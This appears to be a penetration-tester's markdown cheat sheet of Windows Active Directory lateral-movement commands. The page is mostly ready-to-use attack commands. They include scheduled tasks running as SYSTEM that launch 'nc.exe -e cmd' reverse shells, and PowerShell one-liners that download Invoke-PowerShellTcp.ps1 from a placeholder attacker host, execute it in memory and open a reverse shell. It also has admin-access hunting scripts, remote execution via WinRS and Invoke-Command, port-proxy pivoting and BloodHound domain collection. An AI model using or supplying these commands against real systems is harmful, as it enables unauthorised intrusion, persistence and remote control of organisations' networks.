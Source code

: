 ## Interesting Tools and Tricks

- [gwmi Commands](#gwmi-commands)
- [Schedule Tasks in Remote Computer](#schedule-tasks-in-remote-computer)
- [`Invoke-PowerShellTcp.ps1`](#-invoke-powershelltcpps1-)
- [`Find-PSRemotingLocalAdminAccess.ps1`](#-find-psremotinglocaladminaccessps1-)
- [`Find-WMILocalAdminAccess.ps1`](#-find-wmilocaladminaccessps1-)
- [Enter-PSSession (cmdlet)](#enter-pssession--cmdlet-)
- [Invoke-Command (cmdlet)](#invoke-command--cmdlet-)
- [WinRS.exe](#winrsexe)
- [Loader.exe](#loaderexe)
- [CMD Intersting Commands](#cmd-intersting-commands)
    + [Task Scheduling](#task-scheduling)
    + [Port Redirection](#port-redirection)
- [File Copy Using Powershell](#file-copy-using-powershell)
- [Run WMI Commands](#run-wmi-commands)
- [BloodHound](#bloodhound)


### gwmi Commands
---
```powershell
PS C:> gwmi -class win32_operatingsystem -ComputerName <computer_fqdn>
```

### Schedule Tasks in Remote Computer
---
```powershell
# Create the task
C:> schtasks /create /S <host_fqdn> /SC Weekly /RU “NT Authority\SYSTEM” /TN “<TASK_NAME>” /TR “C:\Users\Public\Downloads\nc.exe -e cmd <IP> <PORT>”

# Run the task
C:> schtasks /Run /S <host_fqdn> /TN “<TASK_NAME>”
```
### `Invoke-PowerShellTcp.ps1`
---
Opens a shell. Modified Version of the original `Invoke-PowerShellTcp_Old.ps1`. Replacing the main function name to `Power`.

Parameters:
- `Reverse`: To open reverse shell
- `Bind` : Creates a bind shell
- `IPAddress`
- `Port`

Example:
```powershell
C:> . Invoke-PowerShellTcp.ps1      
C:> Power -Reverse -IPAddress 192.168.1.1 -Port 1111
```
To download and run from memory, both options:
```powershell
C:> powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress <IP> -Port 443
C:> powershell.exe iex (iwr http://<IP>/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress <IP> -Port 443
```

### `Find-PSRemotingLocalAdminAccess.ps1`
---
To search for local admin access on machines in a domain or local network for the current user.
Parameters:
- `ComputerFile`: File with computers to check
- `StopOnSuccess`: Stops when found one
Example:
```powershell
PS C:> . .\Find-PSRemotingLocalAdminAccess.ps1       # Import module
PS C:> Find-PSRemotingLocalAdminAccess               # Run the function
COMPUTER-WITH-ACCESS
PS C:>
```
### `Find-WMILocalAdminAccess.ps1`
---
Runs a WMI command against the sepcified list of computers. Since, by-default, we need local administrative access on a computer to run WMI commands, a success for this fucntions means local administrative access.

parameters: Same as previous tool
```powershell
PS C:> . .\Find-WMILocalAdminAccess.ps1
PS C:> Find-WMILocalAdminAccess
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA544
Version         : 10.0.14393
The current user has Local Admin access on: SERVER.domain.local
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA549
Version         : 10.0.14393
The current user has Local Admin access on: COMPUTER.domain.local
PS C:>
```
### Enter-PSSession (cmdlet)
---
Starts an interactive session with a single remote computer. During the session, the commands that you type run on the remote computer, just as though you were typing directly on the remote computer. You can have only one interactive session at a time.
```powershell
C:> Enter-PSSession <host>
C:> Enter-PSSession -ComputerName <host>
```
### Invoke-Command (cmdlet)
---
Runs commands on a local or remote computer and returns all output from the commands, including errors.
```powershell
C:> invoke-command -ComputerName WCOMPUTER -ScriptBlock {whoami}

# Created Session
C:> $sess = New-PSSession <host>
C:> Invoke-Command -ScriptBlock {whoami}.ps1 -Session $sess
```
### WinRS.exe
---
```powershell
C:> winrs.exe -r:COMPUTER cmd
```
### Loader.exe
---
```powershell
C:> Loader.exe -path http://<ip>/<file>.ps1
```
### CMD Intersting Commands
---
##### Task Scheduling
---
```powershell
# Create task to run a reverse shell
C:> schtasks /create /S <host> /SC Weekly /RU "NT Authority\SYSTEM" /TN "<task_name>" /TR "powershell.exe -c 'iex (New-ObjectNet.WebClient).DownloadString(''http://<IP>/Invoke-PowerShellTcpEx.ps1''')'"

# Force task to run
C:> schtasks /Run /S <host_fqdn> /TN "<task_name>"
```
##### Port Redirection
```powershell
# Redirect connection to local ip and port to remote ip andp ort
C:> netsh interface portproxy add v4tov4 listenport=<local_port> listenaddress=<local_IP> connectport=<remote_port> connectaddress=<remote_IP>"
```
### File Copy Using Powershell
```powershell
# From a URL to a file
C:> iwr http://<IP>/Loader.exe -OutFile C:\Users\Public\Loader.exe
```
### Run WMI Commands
---
```powershell
C:> gwmi -Class win32_computersystem -ComputerName dcorp-dc
```
### BloodHound
---

Setup:
- Install and run neo4j:
```powershell
C:> neo4j.bat install-service
C:> neo4j.bat start
```
- Go to http://localhost:7474 and log using `neo4j` and `neo4j`.
- Change the password for `neo4j` user to the desireed one
- Run `BloodHound.exe` from `BloodHound-win32-x64`
- Will ask for credentials: bolt://localhost:7687  -  neo4j  -  PASSWORD

Run Collectors:
- Powershell:
```powershell
C:> . .\SharpHound.ps1
C:> Invoke-BloodHound -CollectionMethod All -Verbose
```
To avoid asking DC, use:
```powershell
C:> Invoke-BloodHound -CollectionMethod All -ExcludeDC
```
